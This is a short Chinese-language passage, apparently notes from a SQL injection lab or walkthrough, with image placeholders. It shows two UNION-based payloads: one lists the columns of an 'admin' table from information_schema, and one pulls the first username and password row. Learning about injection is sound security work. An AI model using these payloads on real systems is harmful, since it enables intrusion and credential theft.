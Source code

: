查看表明为“admin”中的列名

```
union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name="admin"
```

![image-20240317145839483](../图片/image-20240317145839483.png)

查询表名为“admin”，列名为“username,password”的第一个字段

```
union select 1,2,3,username,password,6 from admin limit 0,1
```

![image-20240317151523222](../图片/image-20240317151523222.png)
